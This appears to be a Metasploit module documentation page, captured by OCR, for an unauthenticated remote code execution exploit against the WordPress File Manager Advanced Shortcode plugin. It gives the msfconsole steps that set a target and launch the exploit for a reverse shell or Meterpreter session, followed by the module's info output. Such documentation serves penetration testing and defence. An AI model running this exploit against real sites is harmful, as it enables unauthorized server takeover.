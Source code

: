 ## Verification Steps

List the steps needed to make sure this thing works

- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper, 3=Windows Command, 4=Powershell, 5=Windows Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > info

       Name: Wordpress File Manager Advanced Shortcode 2.3.2 - Unauthenticated Remote Code Execution through shortcode
     Module: exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce
   Platform: Windows, Unix, Linux, PHP
       Arch: cmd, php, x64, x86, aarch64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-05-31

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Mateus Machado Tesser

Module side effects:
 artifacts-on-disk
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper
      3   Windows Command
      4   Windows Powershell
      5   Windows Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting                Required  Description
  ----       ---------------                --------  -----------
  Proxies                                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     192.168.201.10                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT      80                             yes       The target port (TCP)
  SSL        false                          no        Negotiate SSL/TLS for outgoing connections
```